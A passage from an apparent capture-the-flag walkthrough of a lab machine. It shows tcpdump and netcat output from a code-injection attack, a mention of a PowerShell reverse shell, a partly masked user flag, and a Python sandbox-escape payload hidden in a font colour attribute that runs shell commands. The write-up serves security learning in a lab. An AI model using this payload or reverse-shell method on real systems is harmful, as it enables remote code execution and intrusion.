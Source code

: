 ```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:24:02.578332 IP 10.10.11.16 > 10.10.14.6: ICMP echo request, id 1, seq 10, length 40
16:24:02.578347 IP 10.10.14.6 > 10.10.11.16: ICMP echo reply, id 1, seq 10, length 40

```

This works for the phone number in the leave request, the training type in the training request, the address in the home office request, and the destination in the travel approval request.

With this method, I can use a long payload, like a PowerShell reverse shell from [revshells.com](https://www.revshells.com/):

![image-20240517163311613](/img/image-20240517163311613.png)

On sending, I get a shell:

```

oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.16 63912

PS C:\Users\blake\Documents\app>

```

I can grab `user.txt`:

```

PS C:\Users\blake\desktop> type user.txt
ed253e03************************

```

#### Shrink Payload

The author’s intended path was to shrink the payload. Starting with this:

```

<para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('ping 10.10.14.6') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>

```
